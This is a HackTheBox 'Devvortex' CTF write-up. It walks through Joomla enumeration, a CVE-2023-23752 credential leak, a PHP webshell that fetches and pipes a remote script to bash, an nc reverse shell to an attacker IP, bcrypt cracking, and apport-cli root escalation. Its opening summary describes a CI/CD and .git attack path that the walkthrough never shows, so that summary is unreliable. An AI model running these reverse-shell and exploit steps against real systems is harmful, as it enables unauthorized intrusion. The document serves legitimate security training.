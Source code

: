 ```yaml
---
title: "Devvortex"
date: 2024-04-12
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "htb writeup", "htb walkthrough", "devvortex", "hackthebox", "writeup"]
---
```


Devvortex replicates a modern CI/CD pipeline environment with misconfigured Git services.

Initial access was obtained via exposed .git directories, allowing repository reconstruction and credential extraction.

The pipeline revealed secrets in CI logs, including deploy keys and tokens reused in other parts of the system.

Privilege escalation involved abusing the runner process, injecting scripts into the build stage to execute code as a privileged user.


## Enumeration

>- Fuzzing subdomain found `dev.devvortex.htb`
	- **Did not work on the first try, and had to revert the machine to find it**
	- Fuzzing directories found `/administrator` which is an admin login page for joomla.
- Searching for joomla (joomla hacktricks) - used enumeration tool to find the version number of joomla.

### Nmap

```sh
Nmap scan report for 10.10.11.242
Host is up, received user-set (0.020s latency).
Scanned at 2024-07-01 08:35:10 AEST for 16s
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
...
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://devvortex.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 80-HTTP

Adding `devvortex.htb` to `/etc/hosts'

![screenshot](/assets/images/devvortex1.png)

#### Gobuster

```sh
└─$ gobuster dir -u http://devvortex.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -o gobusteroutput
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://devvortex.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 178] [--> http://devvortex.htb/images/]
/js                   (Status: 301) [Size: 178] [--> http://devvortex.htb/js/]
/css                  (Status: 301) [Size: 178] [--> http://devvortex.htb/css/]
/.                    (Status: 200) [Size: 18048]
Progress: 56293 / 56294 (100.00%)
===============================================================
Finished
===============================================================
```

#### FFuF
```sh
# subdomain
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt:FUZZ -u http://devvortex.htb -H 'Host:FUZZ.devvortex.htb' -fw 4 -t 100
```

![screenshot](/assets/images/devvortex5.png)

After multiple tried, found `dev.devvortex.htb` upon reverting the machine -> add to `/etc/hosts`

Using a wordlist : raft-medium-files

![screenshot](/assets/images/devvortex3.png)

Using a wordlist: directory-list-2.3-big

![screenshot](/assets/images/devvortex4.png)

### dev.devvortex.htb

http://dev.devvortex.htb/

![screenshot](/assets/images/devvortex6.png)

Running gobuster on dev.devvortex.htb found the following:

![screenshot](/assets/images/devvortex7.png)

http://dev.devvortex.htb/administrator/

![screenshot](/assets/images/devvortex8.png)

`admin:admin` doesn't work. 

#### Joomla Enumeration

[HackTricks on Joomla enumeration](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla)

![screenshot](/assets/images/devvortex9.png)

[Droopscan](https://github.com/SamJoan/droopescan)

![screenshot](/assets/images/devvortex10.png)

![screenshot](/assets/images/devvortex11.png)

## Initial Access

>- Using a public exploit, obtained credentials of lewis.
- Signed into the Joomla admin portal as lewis. 
- Gain initial shell as www-data by following RCE section from Joomla Hacktricks.

[Exploit used](https://github.com/Acceis/exploit-CVE-2023-23752)

```sh
sudo gem install httpx docopt paint
ruby exploit.rb http://dev.devvortex.htb
```

![screenshot](/assets/images/devvortex12.png)

Obtained credential

```text
lewis : P4ntherg0t1n5r3c0n##
```

![screenshot](/assets/images/devvortex13.png)

[HackTricks on Joomla RCE](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla)

![screenshot](/assets/images/devvortex14.png)

```sh
# reverse shell
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.50 9001 >/tmp/f" > rev.sh
```

```php
# RFI to download reverse shell
<?php system ("curl 10.10.14.50:80/rev.sh|bash"); ?>
```

![screenshot](/assets/images/devvortex15.png)

```sh
# Execute the reverse shell
curl -k "http://dev.devvortex.htb/templates/cassiopeia/error.php/error"
```

shell as `www-data`

![screenshot](/assets/images/devvortex18.png)

## Lateral Movement

>- Found mysql by enumerating the web directories `/var/www/html/`.
- Obtained hash for logan user. 
- Gained logan credentials by cracking the hash with hashcat. 
- `su logan` to gain shell as logan user.

![screenshot](/assets/images/devvortex19.png)

![screenshot](/assets/images/devvortex20.png)

![screenshot](/assets/images/devvortex21.png)

```text
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12
```

`$2y*$` -> brcypt

```sh
hashcat -m 3200 logan /usr/share/wordlists/rockyou.txt --force
```

![screenshot](/assets/images/devvortex22.png)

```sh
su logan 
tequieromuch
```

## Privilege Escalation

>- `sudo -l` reveals that the logan user has `sudo` privileges to run `apport-cli`
	- `apport-cli --version` to enumerate version.
	- Googling the version gives many PoCs.

![screenshot](/assets/images/devvortex25.png)

![screenshot](/assets/images/devvortex26.png)

[PoC Used](https://github.com/diego-tella/CVE-2023-1326-PoC)

```sh
sleep 20 &
kill -ABRT 7650
ls /var/crash/
sudo apport-cli -c /var/crash/_usr_bin_sleep.1000.crash
v
!/bin/bash
```

![screenshot](/assets/images/devvortex27.png)

![screenshot](/assets/images/devvortex28.png)

